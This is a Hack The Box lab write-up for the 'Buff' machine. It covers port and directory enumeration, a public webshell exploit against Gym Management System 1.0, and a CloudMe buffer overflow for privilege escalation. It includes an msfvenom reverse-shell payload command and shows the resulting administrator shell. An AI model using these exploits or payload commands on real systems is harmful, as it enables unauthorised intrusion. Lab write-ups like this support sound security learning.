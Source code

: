```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Buff](https://app.hackthebox.com/machines/Buff)

> [!tip]- Summary with Spoilers
> - This machine was running a vulnerable version of the Gym Management System, which I exploited to gain RCE via a webshell.
> - I leveraged a buffer overflow in the `CloudMe` application to escalate privileges to `Administrator`.

## Services

### TCP

```text
# Nmap 7.94SVN scan initiated Sat Aug 31 17:07:23 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-buff.htb.txt buff.htb
Nmap scan report for buff.htb (10.10.10.198)
Host is up, received user-set (0.089s latency).
rDNS record for 10.10.10.198: t
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON          VERSION
7680/tcp open  pando-pub? syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: mrb3n's Bro Hut

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 31 17:08:44 2024 -- 1 IP address (1 host up) scanned in 81.21 seconds
```

#### 8080/tcp-http

```text
__http-server-header:
Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
__http-open-proxy:
Potentially OPEN proxy.
Methods supported:CONNECTION
__http-title:
mrb3n's Bro Hut
__http-methods:
  Supported Methods: GET HEAD POST OPTIONS
```

```console
http://buff.htb:8080 [200 OK] Apache[2.4.43], Bootstrap, Cookies[sec_session_id], Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6], HttpOnly[sec_session_id], IP[10.10.10.198], JQuery[1.11.0,1.9.1], OpenSSL[1.1.1g], PHP[7.4.6], PasswordField[password], Script[text/JavaScript,text/javascript], Shopify, Title[mrb3n's Bro Hut], Vimeo, X-Powered-By[PHP/7.4.6], X-UA-Compatible[IE=edge]
```

Selection of potentially interesting URLs from `feroxbuster -u http://buff.htb:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1 -k -s 200,301,302`:

```text
...
301      GET        9l       30w      337c http://buff.htb:8080/profile => http://buff.htb:8080/profile/
301      GET        9l       30w      336c http://buff.htb:8080/upload => http://buff.htb:8080/upload/

200      GET      168l      486w     7791c http://buff.htb:8080/packages.php
200      GET        1l        2w       15c http://buff.htb:8080/include/process_login.php

200      GET      118l      265w     4169c http://buff.htb:8080/contact.php
200      GET      141l      433w     5337c http://buff.htb:8080/about.php
200      GET      122l      502w     5961c http://buff.htb:8080/facilities.php

301      GET        9l       30w      337c http://buff.htb:8080/include => http://buff.htb:8080/include/
301      GET        9l       30w      337c http://buff.htb:8080/Profile => http://buff.htb:8080/Profile/
200      GET      339l     2953w    18025c http://buff.htb:8080/LICENSE
301      GET        9l       30w      333c http://buff.htb:8080/att => http://buff.htb:8080/att/
301      GET        9l       30w      333c http://buff.htb:8080/IMG => http://buff.htb:8080/IMG/

301      GET        9l       30w      332c http://buff.htb:8080/ex => http://buff.htb:8080/ex/

301      GET        9l       30w      334c http://buff.htb:8080/boot => http://buff.htb:8080/boot/
```

```markup
$ curl 'http://buff.htb:8080/HOME.php'
<br />
<b>Parse error</b>:  syntax error, unexpected '}', expecting ';' or ',' in <b>C:\xampp\htdocs\gym\home.php</b> on line <b>106</b><br />
```

```console
$ curl http://buff.htb:8080/editp.php -X POST -d "fn=hax"
<br />
<b>Parse error</b>:  syntax error, unexpected '}', expecting ';' or ',' in <b>C:\xampp\htdocs\gym\editp.php</b> on line <b>21</b><br />
```

I can provoke some errors in various ways, like:

`**Warning**: mysqli::__construct(): (HY000/1049): Unknown database 'secure_login' in **C:\xampp\htdocs\gym\ex\include\db_connect.php** on line **3**`

And,

`:  Undefined index: username in <b>C:\xampp\htdocs\gym\ex\profile\i.php`

This site is running "Gym Management System 1.0", which has a SQLi vulnerability.

## Remote Code Execution

This is <https://www.exploit-db.com/exploits/48506>.

```console
$ python2 ./x.py http://buff.htb:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG

buff\shaun
```

## Privilege Escalation

```console
$ head 48389.py
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86
```

Used payload from: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -b "\x00\x0d\x0a" -f python`

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.198] 49729
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```

## Post-exploitation

Life after `root`.

```text
PS C:\> systeminfo
Host Name:                 BUFF
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          shaun
Registered Organization:
Product ID:                00329-10280-00000-AA218
Original Install Date:     16/06/2020, 15:05:58
System Boot Time:          28/09/2024, 18:35:32
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.23553139.B64.2403260936, 26/03/2024
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,455 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,054 MB
Virtual Memory: In Use:    1,745 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.198
                                 [02]: fe80::f153:9dda:f5ce:bddb
                                 [03]: dead:beef::cd48:d0d8:4905:bb02
                                 [04]: dead:beef::f153:9dda:f5ce:bddb
                                 [05]: dead:beef::114
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
